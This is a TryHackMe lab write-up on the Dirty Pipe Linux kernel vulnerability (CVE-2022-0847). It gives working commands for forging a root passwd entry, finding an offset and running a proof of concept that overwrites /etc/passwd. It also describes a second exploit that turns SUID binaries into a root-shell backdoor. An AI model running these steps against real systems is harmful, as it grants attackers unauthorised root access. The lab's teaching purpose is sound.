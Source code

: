 ```yaml
---
description: https://tryhackme.com/room/dirtypipe
---
```


# Dirty Pipe: CVE-2022-0847

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

## Background

In March 2022, a researcher named Max Kellerman publicly disclosed a Linux Kernel vulnerability (nicknamed "Dirty Pipe" for its similarities to the notorious "[Dirty Cow](https://dirtycow.ninja/)" exploit affecting older versions of the kernel) that allowed attackers to arbitrarily overwrite files on the operating system. The vulnerability was responsibly disclosed in early 2022 and was [publicly released in a blog post](https://dirtypipe.cm4all.com/) written by Max Kellerman soon after patches were made available.

Arbitrary file overwrites at the kernel level can be very easily leveraged to escalate privileges on the machine (i.e. to obtain administrator, or "root" privileges). This is a devastating vulnerability, made more so by its reach: any devices running a vulnerable version of the Linux kernel (including Android phones) are affected!

## Overview

Due to their low-level nature, any in-depth discussion of kernel vulnerabilities quickly becomes rather complicated. As such we will keep the information in this task relatively light, in the interests of keeping the information easy to digest. If you would like to read an in-depth explanation of the vulnerability (including a full code analysis), you are highly encouraged to check out Max Kellerman's [original blog post](https://dirtypipe.cm4all.com/).

## A Weaponized PoC

### Generating a SHA512Crypt Hash

The first thing we want to do is create a hash so that we can add a user to the /etc/passwd file

```bash
openssl passwd -6 --salt THM "PASSWORD"
$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.
```

We now want to make a template for what we want to add to /etc/passwd

```
'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'
```

### Finding an Offset

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Compile the Exploit

![Compile the Exploit](<../../../.gitbook/assets/image (24) (1) (1) (1).png>)

### Run the Exploit

Then the command should look like this:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
'
```

{% hint style="warning" %}
Note: It is important to have that ' on the next line
{% endhint %}

![It Worked!](<../../../.gitbook/assets/image (21) (1) (1).png>)

{% hint style="warning" %}
Note: This flag is partially hidden
{% endhint %}

<details>

<summary>flag.txt</summary>

THM{MmU4Zjg0NDdjNjFi\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}

</details>

## A Second Exploit

### Overview

In the previous task, we exploited the Dirty Pipe vulnerability using Max Kellerman's original proof of concept exploit code; however, other exploits have since been released. The original PoC allowed us to overwrite any file with arbitrary data at an offset of our choosing; however, other implementations have abused the arbitrary file write vulnerability in a variety of different ways.

To demonstrate this concept, a second exploit script has been added to the lab machine — this can be found on the target at `/home/tryhackme/Exploit/Bl4sty/dirtypipez.c`. As the directory structure suggests, this implementation was coded by [@bl4sty](https://twitter.com/bl4sty/), a security researcher who you may remember if you have already completed the "[SudoVulns: Baron Samedit](https://tryhackme.com/room/sudovulnssamedit)" room. The original exploit code can be downloaded from bl4sty's website [here](https://haxx.in/files/dirtypipez.c); however, as mentioned previously, a copy has already been added to the lab machine.

This exploit takes the arbitrary file write one stage further by abusing a rather special quality of the vulnerability. SUID Programs usually lose their [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) when you attempt to write to them; however, this does not happen with Dirty Pipe — in other words, we can write to any program that has permission to execute with higher privileges, without inadvertently destroying that extra permission (as would usually happen).

Bl4sty's exploit capitalises on this. Instead of overwriting a file like `/etc/passwd`, it overwrites a user-specified SUID binary (such as `/bin/su`), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. `root`). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  `/tmp` which has the SUID bit and calls `/bin/sh`. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

### Exploitation

#### Compile the Exploit

```bash
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ gcc dirtypipez.c -o exploit
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ls
dirtypipez.c  exploit
```

#### Run the Exploit

![We got Root!](<../../../.gitbook/assets/image (9) (1) (1).png>)

## Lessons Learned

* When looking for a Linux privilege escalation keep an eye out for the kernel version because if it is 5.8, this could be an easy attack vector
* Even if the linux operating system is read-only (like [bottlerocket](https://github.com/bottlerocket-os/bottlerocket)) the kernel could still be vulnerable to this attack
